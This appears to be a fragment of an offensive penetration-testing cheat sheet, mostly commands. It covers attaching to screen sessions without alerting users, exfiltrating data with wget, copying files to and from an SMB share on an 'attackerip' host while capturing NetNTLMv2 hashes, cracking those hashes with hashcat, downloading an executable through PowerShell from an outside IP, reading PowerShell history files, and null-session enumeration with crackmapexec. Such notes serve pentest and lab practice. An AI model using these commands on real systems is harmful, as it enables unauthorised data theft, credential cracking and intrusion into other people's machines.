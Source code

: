 ## List and attach to screen session
This won't deatch other users from the screen session if they're on, so it is a little less alerting.
```bash
screen -ls
screen -x
```

exfil data with wget --post-file to locally hosted http server


# Windows tips 
## File transfer made easy!
```
srv$ sudo smbserver.py -smb2support srv .
```

and on target:
```
copy \\attackerip\srv\file .
or
copy importantfile \\attackerip\srv\file
```
A bonus is that you get a NetNTLMv2 hash with this, that you can try to crack with hashcat. Put the *whole* hash collected into a file, and then
```
hashcat -m 5600 -r rules\best64.rule ntlmhash.txt -o ntlm-cracked.txt rockyou.txt
```


## directory listing, sorted by modification date:
dir /ot


## powershell 2.0 "wget"
```powershell
powershell -command  "(new-object System.Net.WebClient).DownloadFile('http://10.10.12.45:8080/1.exe','C:\Users\security\Downloads\1.exe')
type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

## view powershell readline history
```
type %USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```


## get password policy with null authentication with crackmapexec
```
crackmapexec smb <ip> --pass-pol -u '' -p ''  
```
